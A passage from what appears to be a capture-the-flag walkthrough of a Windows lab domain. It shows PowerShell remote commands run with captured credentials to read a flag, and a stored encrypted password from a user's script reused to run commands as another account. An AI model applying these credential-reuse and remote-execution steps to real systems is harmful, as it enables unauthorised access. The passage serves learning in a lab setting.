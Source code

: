 we can use the `Invoke-Command` this should work

and yes! it is
```powershell
PS C:\Utils> Invoke-Command -ScriptBlock {whoami} -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
acute\imonks
```
we can get the user flag now

```powershell
PS C:\Utils> Invoke-Command -ScriptBlock { cat C:\users\imonks\desktop\user.txt } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```
we also can see a file beside the flag file on imonks desktop `vm.ps1` that look suspicious:

```powershell
PS C:\Utils> Invoke-Command -ScriptBlock { ls C:\users\imonks\desktop} -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    Directory: C:\Users\imonks\desktop
 Mode               LastWriteTime       Length Name
 ----               -------------       ------ ----             
 -ar---     05/06/2022      22:16           34 user.txt
 -a----     11/01/2022      18:04          602 wm.ps1
```

it got creds for jmorgan on Acute-PC01:

```powershell
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```
to be continued...
